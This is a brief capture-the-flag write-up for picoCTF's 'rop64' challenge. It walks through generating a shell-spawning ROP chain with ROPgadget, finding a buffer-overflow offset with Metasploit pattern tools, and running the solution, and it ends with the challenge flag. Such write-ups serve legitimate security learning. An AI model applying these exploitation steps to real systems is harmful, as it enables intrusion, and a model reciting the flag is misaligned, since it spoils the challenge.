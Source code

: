 # rop64

## Binary Exploitation - Points: 400

> Time for the classic ROP in 64-bit. Can you exploit this program to get a flag?
>
> [vuln](vuln)
>
> [vuln.c](vuln.c)

Use `ROPgadget` to find a ROP chain that spawns a shell.

    $ ROPgadget --binary vuln --ropchain

Find the offset where the overflowing buffer writes to the `RIP`. Create a pattern and use it in `gdb` to find the address where the `SEGFAULT` occurs.

    $ /opt/metasploit/tools/exploit/pattern_create.rb --length 1024
    $ /opt/metasploit/tools/exploit/pattern_offset.rb -q 0x6241396141386141
      [*] Exact match at offset 24

Execute the ROP chain from `ROPgadget` with the correct padding of 24 to get a shell that lets you `cat flag.txt`.

    $ (python2 sol.py; cat) | ./vuln

flag: `picoCTF{rOp_t0_b1n_sH_w1tH_n3w_g4dg3t5_d4b7a298}`